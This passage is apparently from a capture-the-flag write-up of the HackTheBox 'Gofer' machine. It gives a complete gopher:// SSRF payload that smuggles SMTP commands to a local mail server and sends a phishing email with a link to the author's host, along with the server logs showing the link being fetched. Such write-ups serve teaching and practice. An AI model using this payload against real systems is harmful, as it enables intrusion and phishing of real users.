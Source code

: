 Those special characters are line feed and carriage return, which end the current line and move to the next (\r\n normally but it didn't like it in my testing). And if you are converting this payload yourself be sure to remove the instances of **%0a** after urlencoding. Final payload as follows:

```
gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM:%3Craccoon@gofer.htb%3E%250d%250aRCPT%20TO:%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom:%20%3Craccoon@gofer.htb%3E%250d%250aTo:%20%3Cjhudson@gofer.htb%3E%250d%250aSubject:%20Nigerian%20Prince%250d%250a%250d%250a%3Ca%20href='http://10.10.14.5:8080/raccoon.odt'%3Eclick%20me%20for%201%20million%3C/a%3E%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

To recap this is an email from my nonexistent account to jhudson with a url that sends a download request to my address when clicked.

![burp successful gopher send](/img/gofer/gofer_burp_successful_smtp.png)

And the server results: 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer/Gopherus]
└──╼ $httpserver 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.225 - - [17/Sep/2023 15:44:09] code 404, message File not found
10.10.11.225 - - [17/Sep/2023 15:44:09] "GET /raccoon.odt' HTTP/1.1" 404 -
10.10.11.225 - - [17/Sep/2023 15:45:08] code 404, message File not found
10.10.11.225 - - [17/Sep/2023 15:45:08] "GET /raccoon.odt' HTTP/1.1" 404 -
```
